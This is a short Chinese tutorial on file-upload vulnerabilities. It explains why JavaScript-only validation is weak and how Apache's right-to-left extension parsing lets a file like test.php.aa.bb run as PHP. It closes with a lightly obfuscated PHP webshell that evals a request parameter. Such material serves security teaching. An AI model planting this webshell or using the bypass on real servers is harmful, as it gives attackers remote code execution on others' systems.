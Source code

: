 # **Webshell与文件上传漏洞 -2**

## 1.为什么说js校验是一种不安全的校验方式？

JavaScript是一种脚本语言，其执行过程发生在用户的浏览器端。在客户端进行的验证相当于“让用户自己验证自己”，很明显是不靠谱的。你不能避免一些恶意用户人为的修改自己提交的表单进行欺骗，也不能避免第三方对表单进行截获后进行篡改再提交。但是JS验证有它存在的必要，因为首先JS验证速度很快，不需要HTTP交互，可以在本地验证，对于用户来说，提示错误会显得非常迅速。其次是普通用户一般占访问用户的绝大多数，也就是说，大部分的验证工作，都是有效的，在前端验证可以极大的减轻服务器的压力。

## 2.Apache解析漏洞如何利用呢？
前情提要：Apache在解析文件时有一个原则：当碰到不认识的扩展名时，将会从后面向前解析，直到碰到认识的扩展名为止。

例 上传文件：

>test.php.aa.bb

后缀名bb 不认识,向前解析

>test.php.aa

后缀名aa 不认识 向前解析

>test.php

**所以最终解析结果为PHP文件**

这种方法可以绕过上传黑名单的检查，（如网站上传限制,不允许上传后缀名为PHP的文件）既然你可以让服务器解析你的php文件，那为何不让服务器解析如下代码(手动滑稽)
```
<?php
$a=call_user_func(function($u){return @$_REQUEST[$u];},'1');
eval(/**/($a));
```
